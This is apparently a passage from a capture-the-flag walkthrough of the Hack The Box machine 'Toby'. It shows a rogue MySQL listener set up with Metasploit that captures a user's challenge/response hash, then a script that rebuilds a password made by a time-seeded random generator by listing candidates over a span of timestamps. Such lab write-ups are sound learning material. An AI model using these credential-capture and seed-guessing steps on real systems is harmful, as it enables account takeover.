 try found some container again using nslookup and we found personal.toby.htb 

![alt ffuf](/assets/img/toby/enum-host-docker.png)

as we can see, we can capture creds of mysql by giving parameter on web service to our local mysql, in this case we will use auxiliary module from metasploit [here](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/server/capture/mysql)

```bash
msf5 > use auxiliary/server/capture/mysql 
msf5 auxiliary(server/capture/mysql) > set johnpwfile /tmp/mysql.logins
johnpwfile => /tmp/mysql.logins
msf5 auxiliary(server/capture/mysql) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/mysql) > 
[*] Started service listener on 0.0.0.0:3306 
[*] Server started.
[+] 127.0.0.1:59604 - User: jack; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 7323fe921ced57a1bedbda67f9d2d63b8badb
```

but when we try crack this hash using rockyou.txt we can't found a decrypt string, so we need look again on source code, we'll found generate password function on this source

```python
@app.route("/api/password")
def api_password():
	chars = string.ascii_letters + string.digits
	random.seed(int(time.time()))
	password = ''.join([random.choice(chars) for x in range(32)])
	return Response(json.dumps({"password": password}), mimetype="application/json")
```

i just guess this password was make when this box released and i solved this box 3 months after so i create some script to generate wordlist with timestamp 3 months ago (it'll be write a huge wordlist)

```python
#!/usr/bin/env python3

import string, random, time

f = open("password.lst", "a")
for i in range(1610000000,1648045039):
    chars = string.ascii_letters + string.digits
    random.seed(int(i))
    password = ''.join([random.choice(chars) for x in range(32)])
    f.write(password+"\n")

f.close()
```
and finally we can get password
